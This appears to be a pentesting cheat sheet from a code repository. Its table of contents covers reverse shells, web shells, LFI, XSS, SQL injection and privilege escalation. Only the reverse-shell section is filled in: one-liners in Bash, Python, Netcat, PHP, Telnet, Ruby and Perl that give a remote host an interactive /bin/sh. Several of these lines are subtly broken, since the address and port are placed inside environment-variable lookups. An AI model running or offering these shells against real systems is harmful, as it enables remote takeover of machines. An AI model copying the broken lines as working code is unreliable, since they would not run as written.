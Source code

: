 ____

### Reverse shell
* #### [Bash](#reverse_shell_bash)
* #### [Python](#reverse_shell_python)
* #### [Netcat](#reverse_shell_netcat)
* #### [PHP](#reverse_shell_php)
* #### [Telnet](#reverse_shell_telnet)
* #### [Ruby](#reverse_shell_ruby)
* #### [Perl](#reverse_shell_perl)
### TTY Spawn Shell
* #### Python spawn shell
* #### OS system spawn shell
* #### Bash spawn shell
* #### Perl spawn shell
* #### Python spawn shell 
* #### Lua spawn shell 
* #### IRB spawn shell 
* #### VI spawn shell 
* #### VI(2) spawn shell 
* #### Nmap spawn shell 
### PHP Reverse Shell
* #### RCE
* #### Obfuscate PHP Web Shell
* #### PHP Reverse Shell
### LFI
* #### Directory traversal
* #### PHP Wrapper php://file
* #### PHP Wrapper php://filter
* #### Useful LFI files (Linux)
* #### Useful LFI files (Apache)
* #### Useful LFI files (MySQL)
* #### Useful LFI files (Windows)
### XSS
* #### Data grabber for XSS
* #### XSS in HTML/Applications
  * ##### Basic Payload
  * ##### Img tag payload
* #### XSS in Markdown
* #### XSS in SVG
* #### Bypass word blacklist with code evaluation
### SQL Injection Payloads
* #### Generic SQL Injection
* #### Time-Based
* #### Generic Error Based Payloads
* #### Authentication Based Payloads
* #### Order by and UNION Based Payloads
### Useful Linux command
* #### SUID Commands
* #### System Version
* #### Environment Variables
* #### Service settings
* #### Cron Jobs
* #### Other Users
* #### Port Forwarding
* #### TAR wildcard cronjob privilege escalation
### File Transfer
* #### Bash Upload
* #### Bash Download
* #### Netcat
* #### Python
* #### SCP

____

### Reverse shell > <a name="reverse_shell_bash"></a>Bash
###### bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1234 <&1'

### Reverse shell > <a name="reverse_shell_python"></a>Python
```python  
python -c 'import sys,socket,os,pty;s=socket.socket()
  s.connect((os.getenv("127.0.0.1"),int(os.getenv("1234"))))
  [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
  pty.spawn("/bin/sh")'
```

### Reverse shell > <a name="reverse_shell_netcat"></a>Netcat
###### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f

### Reverse shell > <a name="reverse_shell_php"></a>PHP
###### php -r '$sock=fsockopen(getenv("127.0.0.1"),getenv("1234"));exec("/bin/sh -i <&3 >&3 2>&3");'

### Reverse shell > <a name="reverse_shell_telnet"></a>Telnet
###### TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1234 0<$TF | /bin/sh 1>$TF

### Reverse shell > <a name="reverse_shell_ruby"></a>Ruby
###### ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["127.0.0.1"],ENV["1234"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Reverse shell > <a name="reverse_shell_perl"></a>Perl
###### perl -e 'use Socket;$i="$ENV{127.0.0.1}";$p=$ENV{1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

____
